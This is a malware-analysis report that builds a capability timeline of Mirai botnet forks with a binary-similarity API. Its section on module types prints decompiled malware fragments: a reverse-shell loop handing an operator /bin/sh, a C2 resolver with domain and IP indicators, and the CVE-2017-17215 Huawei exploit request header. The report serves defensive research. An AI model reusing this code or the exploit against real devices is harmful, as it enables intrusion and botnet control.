

# Mirai proper — capability timeline across the `mirai7` collection

Companion to [`mirai7_kaiten_timeline.md`](mirai7_kaiten_timeline.md), which did
the same exercise for the Kaiten/STD minority. This one covers the **164
non-Kaiten files** — the actual Mirai side of the collection — and it needed a
different method, for a reason that is itself the main finding.

Everything below was produced through the API. The full command sequence is in
§2, including the two dead ends, because the method is the reusable part.

---

## 1. Why the Kaiten method does not work here

The Kaiten analysis compared **symbol name sets** between samples. That worked
because all ten Kaiten files kept their symbols and all ten used the same names.

On the Mirai side, only **4 of 164 files** are symbolised:

| Sample | Arch | Fns | Named | First seen |
|---|---|---|---|---|
| `nova.mipsel` | MIPS:LE | 599 | 428 | 2026-04-26 |
| `mipsel` | MIPS:LE | 600 | 409 | 2026-04-03 |
| `arm7` | ARM:LE | 393 | 236 | 2026-03-20 |
| `nuclear.arm7` | ARM:LE | 396 | 229 | 2026-03-24 |

And those four **do not use the same names for the same modules**:

| Module | `nuclear.arm7` | `arm7` | `mipsel` | `nova.mipsel` |
|---|---|---|---|---|
| SYN flood | `attack_tcp_syn` | `attack_tcp_syn_aisuru` | `flood_syndata` | — |
| UDP plain flood | `attack_udp_plain` | `attack_udp_plain_aisuru` | `flood_udpplain` | `udpplain_thread` |
| command parser | `attack_parse` | `attack_parse` | `flood_parse` | — |
| attack init | `attack_init` | `attack_init` | `floods_init` | — |
| C2 resolver | `resolve_cnc_addr` | `resolve_cnc_addr` | — | `resolve_c2` |
| config table | `table_init` | — | — | — |

A fifth naming convention shows up in the stripped samples: a February build set
uses **`xor_init`** where classic Mirai uses `table_init`.

So a symbol-set diff across the Mirai forks compares vocabularies, not code. The
unit of analysis has to be the **similarity cluster** — which is exactly what
BSimVis is for, and it is why this side of the collection is the better
advertisement for the tool.

## 2. Method, step by step

Roughly 380 API calls, all read-only. Nothing here needs anything the tool does
not already expose.

### Step 1 — separate the two families

Kaiten was already isolated in the companion report (10 files). Everything else
is the Mirai population: **164 files**.

```bash
curl -s "localhost:5001/api/file/search?collection=mirai7&limit=200"
```

One call gives `file_name`, `first_seen`, `language_id`, `function_count` for all
174 files — the timeline axis comes from `first_seen` and costs nothing extra.

### Step 2 — find which samples kept symbols

There is no `has_symbols=true` filter, so this is a client-side sweep: pull each
file's function list and measure the share of names that are not `FUN_*`.

```bash
for md5 in $(...); do
  curl -s "localhost:5001/api/function/search?collection=mirai7&file_md5=$md5&limit=3000"
done
```

164 calls, ~6 MB, to answer a one-line question. Four files came back symbolised.
**This is the single most wasteful step in the whole analysis** and the one most
worth fixing in the product (see §7).

### Step 3 — harvest the malware vocabulary from those four

Filter each symbolised sample's names down to malware-authored ones by prefix
(`attack_`, `flood_`, `table_`, `util_`, `rand_`, `killer_`, `scanner_`,
`checksum_`, `resolve_`, `anti_`, `watchdog`, `ensure_`). This is the only
judgement call in the method; everything else is mechanical.

Result: **100 distinct symbol names** across the four samples — and the naming
divergence in §1 became visible here, not later.

### Step 4 — turn each name into a cluster (the pivot that matters)

```bash
curl -s "localhost:5001/api/function/search?collection=mirai7&function_name=table_init&min_cohesion=0.5&limit=200"
```

The response carries a `clusters` map alongside the matched functions. Two traps,
both undocumented:

* the map is keyed by **`cluster_id`** (an int), while the value holds the
  `cluster_uuid` you actually need for the next call;
* `function_name` matching is **substring-based**, so `attack_tcp_syn` also
  returns `attack_tcp_synr` and `attack_tcp_syn_aisuru` — and the `clusters` map
  is a flat union over all of them, with no indication of which cluster belongs
  to which function.

Disambiguating means going one level deeper: fetch each candidate cluster's
membership and keep only clusters that actually contain a function whose name
matches exactly.

```bash
curl -s "localhost:5001/api/function/search?collection=mirai7&cluster_uuid=8ec63aa85bd9&limit=500"
```

100 name queries + 101 cluster queries. This is the "symbolised sample as Rosetta
stone" workflow from the family report, run at corpus scale.

### Step 5 — collapse clusters into capabilities

The same module appears in several clusters, one per architecture family:
`table_init` alone spans 5 clusters (40 + 37 + 27 + 25 + … members). Collapse by
the cluster's dominant symbol name.

**100 names → 101 clusters → 54 capabilities**, each with the set of files that
carry it — stripped files included, which is the whole point.

### Step 6 — date each capability and bucket by role

For each capability, `first_seen` of the earliest file carrying it. Group the 54
capabilities by role (config table, RNG, checksums, string/util runtime, killer /
anti-analysis, C2 resolution, attack modules, exploit scanner).

### Step 7 — draw it

Sankey of wave → role, plus the reach table in §5. Then one `function/code`
call per role for the annotated snippets in §7.

### Two dead ends worth recording

* **Symbol-set diffing** (the Kaiten method) — abandoned at step 3 once the
  naming divergence was visible. Cost: one wasted pass.
* **Clustering by `cluster_name`** — `cluster_name` is a majority-vote label, so
  the config-table cluster is named `FUN_0040becc` in one case and `xor_init` in
  another. Unusable as a grouping key; the dominant *symbol* name works.

## 3. What the clusters proved that names could not

### Renames — same code, different label

`xor_init` and `table_init` land in the **same cluster** (`7faa9a55a27b`). The
February build set did not write a new config-table routine; it renamed the
existing one. Name-based analysis would have reported a new capability and a lost
one.

### Rewrites — same purpose, different code

`mipsel`'s `flood_*` family clusters **only with itself**:

```
5fd7ef23443b  flood_ack, flood_syndata           (mipsel only)
791db0aec0cb  flood_socket, flood_udpplain       (mipsel only)
474fadc6c470  cudp_thread, udpplain_thread, ice_thread   (nova.mipsel only)
```

Not one of them links to any `attack_*` cluster. So `mipsel` and `nova.mipsel`
did not rename Mirai's attack layer — they **replaced** it. Two forks, two
independently written attack implementations, on top of a shared Mirai core.

That distinction — rename vs rewrite — is invisible to symbol names and invisible
to a binary similarity score. It takes function-level clusters, and it is the
strongest thing this corpus demonstrates about the tool.

### Where clusters are too coarse

The attack methods do not separate cleanly. One cluster (`9981d8faef4d`) holds
`attack_tcp_syn`, `attack_tcp_ack`, `attack_tcp_legit`, `attack_gre_ip`,
`attack_gre_eth`, `attack_tcp_null`, `attack_tcp_sack2`, `attack_tcp_stream`,
`attack_udp_ovhhex` and `attack_tcp_syn_aisuru` together. They share a packet
loop and differ mostly in header setup, so BSim reads them as one thing.

Useful honesty for any automated view: **clusters resolve modules, not individual
attack methods.** Counting "attack capabilities" from clusters will undercount.

## 4. The timeline

Flow widths are capability counts: 54 capabilities, grouped left by the wave in
which they are **first observed**, right by what they do.



| Wave | Capabilities | Anchor samples | What arrives |
|---|---|---|---|
| **2026-01** | 8 | `2abe9d93…` (SuperH4, 376 fns) | the irreducible Mirai core — `rand_init`, `rand_next`, `table_init`, `table_retrieve_val`, `checksum_generic`, `checksum_tcpudp` |
| **2026-02** | 16 | `4d99226e…`, `719d6c26…` (ARM) + 5 more, one build across 7 architectures | the runtime layer — 8 `util_*` string routines, `killer_*`, `scanner_kill`, `anti_gdb_entry`, and `xor_init` (renamed `table_init`) |
| **2026-03** | 28 | `arm7`, then `nuclear.*` | the attack layer — 21 attack modules, `resolve_cnc_addr`, `util_stristr`, `watchdog_maintain` |
| **2026-04** | 2 | `mipsel` | exploit propagation — `comtrend_scanner`, `huawei_scanner_init` |

## 5. Reach — the part that is not biased

The wave dates say when a capability was *first observed*, and that is heavily
influenced by which sample happened to keep symbols (see §6). Reach is not:

| Role | Samples carrying it | Share of the 80 reachable |
|---|---|---|
| RNG | 77 | 96 % |
| config table | 68 | 85 % |
| checksums | 49 | 61 % |
| killer / anti-analysis | 28 | 35 % |
| string / util runtime | 23 | 29 % |
| attack modules | 16 | 20 % |
| C2 resolution | 12 | 15 % |
| exploit scanner | 1 | 1 % |

Read top-down this is the shape of a botnet family: **RNG, config table and
checksums are effectively universal** — they are what makes a sample "Mirai" —
while the attack layer and the C2 resolver are fork-specific. The single exploit
scanner is the `mipsel` outlier documented in §9 of the family report.

**80 of the 164 Mirai files are reachable from a symbolised anchor at all.** Of
the 84 that are not, 58 have fewer than 20 functions — packed UPX stubs with
nothing to cluster. The rest carry functions that clustered with nothing named.

## 6. What this timeline is not

Stated plainly, because an automated view would inherit all of it:

* **First-observation dates are anchored by symbol availability.** Attack modules
  "appear" in 2026-03 because `arm7` — the first symbolised sample carrying them —
  is dated 2026-03-20. Stripped January samples may well contain the same
  modules; if their functions did not cluster with a named one, they are
  invisible here. The wave column is a lower bound, not a birth date.
* **Coverage is uneven by architecture.** Function clusters cross ISAs, but not
  uniformly: the config table clusters across 8 architectures, the attack modules
  mostly do not, which is part of why they read as fork-specific.
* **Capability counts are module counts, not attack counts** (§3, coarse
  clusters).
* **The 164 include 55 UPX-packed files** which decompile to a handful of
  functions. They are in the denominator of nothing here, but they are why
  "80 reachable" is the honest population size.

## 7. What each module type actually is

> **Pivot** — `function/code?id=<function_id>`, one call per function. All but the
> last come from **`nuclear.arm7`**, a single binary that carries seven of the
> eight roles; the exploit scanner exists only in `mipsel`.

### Config table — `table_lock_val`

Mirai keeps its strings (C2 host, process names to kill, attack keywords)
XOR-encrypted in a table and decrypts an entry only for the moment it is used.
This is why a `strings` dump of a Mirai sample comes back nearly empty.

```c
void table_lock_val(int idx) {
    // four-byte rolling XOR against table_key, in place
    *p = (byte) table_key        ^ *p;
    *p = (byte)(table_key >>  8) ^ *p;
    *p = (byte)(table_key >> 16) ^ *p;
    *p = (byte)(table_key >> 24) ^ *p;
}
```

### RNG — `rand_next`

A four-word xorshift. It picks scan targets, source ports and payload padding —
not cryptography. Ten BSim features, and the most conserved routine in the
corpus (77 of 80 reachable samples).

```c
void rand_next(void) {
    uint t = x ^ x << 0xb;
    x = y; y = z; z = w;
    w = w ^ w >> 0x13 ^ t ^ t >> 8;
}
```

### Checksums — `checksum_generic`

The bot builds raw IP/TCP/UDP packets itself, so it needs its own one's-complement
checksum. Its presence is a reliable marker that a sample has a raw-socket flood
layer at all.

```c
uint checksum_generic(ushort *addr, uint len) {
    uint sum = 0;
    while (len > 1) { sum += *addr++; len -= 2; }
    if (len == 1) sum += (byte)*addr;
    sum = (sum & 0xffff) + (sum >> 16);
    return ~(sum + (sum >> 16)) & 0xffff;
}
```

### String / util runtime — `util_memsearch`

Mirai ships its own string functions instead of calling libc. `util_memsearch`
finds a needle in a socket buffer — used to spot login prompts while scanning and
to frame C2 messages.

```c
int util_memsearch(char *buf, int buflen, char *needle, int nlen) {
    for (i = 0, matched = 0; i < buflen; i++) {
        if (buf[i] == needle[matched]) {
            if (++matched == nlen) return i + 1;   // end offset
        } else matched = 0;
    }
    return -1;
}
```

### Killer / anti-analysis — `killer_kill`, `anti_gdb_entry`

`killer_kill` reaps the process that hunts competing malware and telnet/SSH
daemons on the host. `anti_gdb_entry` is Mirai's signature trick: it does nothing
but install the real resolver into a function pointer, so a debugger breaking at
entry never sees the C2 resolution happen.

```c
void killer_kill(void)     { if (killer_pid != 0) kill(killer_pid, 9); }
void anti_gdb_entry(void)  { resolve_func = resolve_cnc_addr; }
```

### C2 resolution — `resolve_cnc_addr`

Unlike the Kaiten family, whose C2 list sits in `.data` and is unreachable
through the API ([companion report](mirai7_kaiten_timeline.md) §6), this build
puts the C2 in the decompilation as a literal:

```c
void resolve_cnc_addr(void) {
    r = resolv_lookup("raw.flameblox.com");      // C2 domain
    if (r == 0 || r->addr_count < 1)
        srv_addr.sin_addr = 0x20bf7857;          // fallback
    else
        srv_addr.sin_addr = r->addrs[rand_next() % r->addr_count];
    srv_addr.sin_port   = 0x6514;
    srv_addr.sin_family = 2;
}
```

**New IOCs, not previously recorded in this collection's metadata** (`cc_ip` is
empty for both files):

| Sample | C2 |
|---|---|
| `nuclear.arm7` | `raw.flameblox.com`, fallback `87.120.191.32`, port `5221` |
| `arm7` | `94.26.106.197` (IP literal, no domain) |

Both constants are read as stored on a little-endian build: `0x20bf7857` →
`87.120.191.32`, `0x6514` → port `5221`. Worth confirming against a big-endian
sibling before publishing them anywhere load-bearing.

### Attack modules — `attack_tcp_reverse`

The layer the forks fight over — 21 of 54 capabilities, only 20 % reach. Most are
packet floods; this one is a reverse shell, handing the operator an interactive
`/bin/sh` on the device.

```c
void attack_tcp_reverse(...) {
    port = attack_get_opt_int(opts, n, 7, 0x115c);
    for (;;) {
        fd = socket(2, 1, 0);
        if (connect(fd, &addr, 16) == -1) { close(fd); sleep(5); continue; }
        dup2(fd, 0); dup2(fd, 1); dup2(fd, 2);
        execl("/bin/sh", "sh", 0);
    }
}
```

### Exploit scanner — `huawei_scanner_init` (`mipsel` only)

The one capability in the collection that spreads by exploit rather than by
password guessing: **CVE-2017-17215**, the Huawei HG532 UPnP command injection.
One sample out of 164.

```
POST /ctrlt/DeviceUpgrade_1 HTTP/1.1
Host: 127.0.0.1:37215
Authorization: Digest username="dslf-config", realm="HuaweiHomeGateway",
    nonce="88645cefb1f9ede0e336e3569d75ee30",
    response="3612b183a60bac282f588c8180ea262d", algorithm="MD5"
<?xml version="1.0" ?><s:Envelope ...
  urn:schemas-upnp-org:service:WANPPPConnection:1
```

The hard-coded digest credentials and port 37215 are the published signature of
that CVE, so this is a copy of the well-known exploit, not a new one.

## 8. What would make this a five-minute job

Every step above is mechanical apart from the role buckets in §6 of the method.
Three things would remove most of the cost — all raised in
[#28](https://github.com/MISP/bsimvis/issues/28) and the API review:

1. **A "which files have symbols" answer.** A `has_symbols=true` filter, or named-
   function counts on `file/search`, replaces a 164-call 6 MB sweep with one call.
   This is the biggest single win and the least work.
2. **Name → cluster in one hop, unambiguously.** Today `function_name` matching is
   substring-based and the `clusters` map is a flat union keyed by `cluster_id`,
   so resolving one symbol to its cluster reliably takes two calls plus a
   membership check. An exact-match flag and a per-function `cluster_uuid` on the
   row would make it one call.
3. **First-seen aggregation per cluster.** Every cluster already knows its member
   files, and every file knows its `first_seen`. A `first_seen` / `last_seen` pair
   on cluster responses turns the whole of §4 into a sort — no client-side join.

With those three, the analysis in this report is a single view: pick a
collection, get capabilities on a time axis, click a flow to see the functions
and the samples behind it.

## 9. Conclusions

1. **The Mirai side of `mirai7` is not one lineage.** It is a shared core with at
   least four independently-named forks on top, and at least two of those
   (`mipsel`, `nova.mipsel`) rewrote the attack layer rather than renaming it.
2. **The shared core is small and stable**: RNG, config table, checksums —
   present in 61–96 % of reachable samples across the whole five-month window.
3. **Renames are provable, and matter.** `xor_init` = `table_init` by cluster
   membership. A symbol-based tool reports a new capability; the cluster says it
   is the same code.
4. **The forks diverge exactly where the money is** — the attack layer and the C2
   resolver. Same as the Kaiten finding, arrived at from the opposite direction.
5. **Method note.** In a corpus of stripped binaries, do not compare names —
   compare clusters, and use names only as labels for them. The Kaiten method
   (symbol-set diff) works only when one build set kept its symbols; the cluster
   method works everywhere, and costs one extra hop per symbol.
